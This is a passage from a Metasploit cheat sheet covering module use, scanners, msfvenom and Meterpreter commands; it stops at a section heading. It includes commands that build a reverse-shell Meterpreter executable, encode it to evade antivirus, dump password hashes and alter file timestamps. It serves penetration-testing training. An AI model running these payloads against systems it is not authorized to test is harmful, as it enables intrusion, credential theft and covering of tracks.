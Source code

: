 # Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```bash
msf > search [regex]
```

- ###### Specify and exploit to use:

```bash
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```bash
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```bash
msf > show options
```

- ###### Set options:

```bash
msf > set [Option] [Value]
```

- ###### Start exploit:

```bash
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```bash
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```bash
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```bash
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```bash
msf > use auxiliary/server/socks4
msf > run 
```
***

### msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```bash
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

- ##### Format Options **(specified with –f)** --help-formats – List available output formats

    -  `-exe` – Executable
    -  `-pl` – Perl
    -  `-rb` – Ruby
    -  `-raw` – Raw shellcode
    -  `-c` – C code

- ##### Encoding Payloads with msfvenom

msfvenom can be used to apply a level of encoding for anti-virus bypass. For example run msfvenom with `-l encoders` to get a list of encoders.

```bash
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

- ##### Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```bash
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=192.168.1.1 LPORT=4444 > mal.exe
```
***

### Metasploit Meterpreter

- ##### Base Commands: 

    - `? / help` : Display a summary of commands exit / quit: Exit the Meterpreter session

    - `sysinfo`: Show the system name and OS type

    - `shutdown / reboot` : Self-explanatory

- ##### File System Commands:

    - `cd` : Change directory

    - `lcd` : Change directory on local (attacker's) machine

    - `pwd / getwd` : Display current working directory
    
    - `ls` : Show the contents of the directory

    - `cat` : Display the contents of a file on screen

    - `download / upload` : Move files to/from the target machine

    - `mkdir / rmdir` : Make / remove directory

    - `edit` : Open a file in the default editor (typically vi)

- ##### Process Commands:

    - `getpid` : Display the process ID that Meterpreter is running inside.

    - `getuid` : Display the user ID that Meterpreter is running with.

    - `ps` : Display process list.

    - `kill` : Terminate a process given its process ID.

    - `execute` : Run a given program with the privileges of the process the Meterpreter is loaded in.

    - `migrate` : Jump to a given destination process ID

- ##### Network Commands:

    - `ipconfig` : Show network interface information

    - `portfwd` : Forward packets through TCP session

    - `route` : Manage/view the system's routing table

- ##### Other Commands:

    - `idletime`: Display the duration that the GUI of thetarget machine has been idle.

    - `uictl [enable/disable] [keyboard/mouse]` : Enable/disable either the mouse or keyboard of the target machine.

    - `screenshot` : Save as an image a screenshot of the target machine.

- ##### Additional Modules:

    - `use [module]` : Load the specified module
    
      - **Examples**:

        -  `use priv` : Load the priv module

        - `hashdump` : Dump the hashes from the box

        - `timestomp` : Alter NTFS file timestamps

***

### Managing Sessions

- ##### Multiple Exploitation:
